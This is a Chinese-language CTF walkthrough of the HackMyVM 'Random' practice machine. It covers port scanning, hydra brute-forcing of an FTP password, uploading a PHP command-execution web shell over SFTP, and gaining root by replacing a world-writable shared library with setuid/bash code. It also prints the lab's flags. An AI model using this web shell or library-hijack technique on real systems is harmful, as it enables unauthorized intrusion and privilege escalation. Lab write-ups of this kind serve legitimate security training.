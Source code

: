 ```yaml
---
{"dg-publish":true,"tags":["HMV","动态链接库替换"],"难度":"⭐️⭐️⭐️","作者":"sml","permalink":"/24-渗透/HMV/15.Random/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.870+08:00"}
---
```




## 1. 基本信息^toc

- [[24-渗透/HMV/15.Random#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/15.Random#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/15.Random#3. FTP\|3. FTP]]
- [[24-渗透/HMV/15.Random#4. SFTP\|4. SFTP]]
- [[24-渗透/HMV/15.Random#5. 提权 -动态链接库替换\|5. 提权 -动态链接库替换]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Random
```


```
作者：sml
```

```
难度：⭐️⭐️⭐️
```


```
知识点：动态链接库替换
```
## 2. 信息收集

```Bash
┌──(root㉿kali)-[/home/kali/hmv/random]
└─# nmap 192.168.9.17 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-13 19:38 CST
Nmap scan report for 192.168.9.17
Host is up (0.00040s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:88:4C:D2 (Oracle VirtualBox virtual NIC)
```
首页

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.001.png)

获取到两个用户

```Bash
alan 
eleanor
```
目录扫描 啥都没有

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.002.png)

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.003.png)

## 3. FTP

匿名登录发现进不来目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.004.png)

尝试用另外两个用户登录

hydra爆破试试

他说alan不能ssh登录

那么eleanor 用户可以ssh

爆破eleanor用户

这爆破出用户eleanor 的ftp密码是 ladybug

但权限只有读。

所以无法上传马儿

## 4. SFTP

尝试用这个密码ssh上去

失败了

```Bash
ssh eleanor@192.168.9.17
eleanor@192.168.9.17's password:
This service allows sftp connections only.
Connection to 192.168.9.17 closed.
```
但告诉我们允许sftp链接

```Bash
sftp eleanor@192.168.9.17
```
用sftp连接上来就可以上传文件了

直接上传一个马儿

```Bash
<?php system($\_POST['cmd']);
echo ok;?>
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.005.png)

## 5. 提权 -动态链接库替换

上来后基本命令检测没有利用的

我们之前不让用密码进行ssh登录

但是可以用密码切换用户

```Bash
su eleanor
eleanor@random:/home/eleanor$ cat note.txt
alan disabled my access via SSH but not my account.
He is a bad admin!
-eleanor
eleanor@random:/home/eleanor$ cat user.txt
ihavethapowah
eleanor@random:/home/eleanor$
```

近用户目录发现 random可以被执

直接下下来分析

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.006.png)

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.007.png)

就是检测以当前时间为种子的随机数的0-9的余数能不能与我们输入的值相等

我们只要一直输入0-9之间的数，总可以匹配上

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.008.png)

回去看一下发现makemeroot函数没有写执行代码，直接return自己了

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/15.Random.009.png)

可能是调用了本地的动态链接库

```Bash
ldd random
eleanor@random:/home/alan$ ldd random
        linux-vdso.so.1 (0x00007ffc0a3e5000)
        librooter.so => /lib/librooter.so (0x00007f7bcafa1000)
        libc.so.6 => /lib/x86\_64-linux-gnu/libc.so.6 (0x00007f7bcade0000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f7bcafb2000)
```
而且/lib/librooter.so链接库是可写的

```Bash
eleanor@random:/home/alan$ ls /lib/librooter.so -la
-rwxrwxrwx 1 root root 15984 Oct 19  2020 /lib/librooter.so
```
直接替换掉

```Bash
#include <stdlib.h>

void makemeroot()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```
本地编译好后传上去替换即可

然后运行即可获取root

```Bash
howiarrivedhere
```


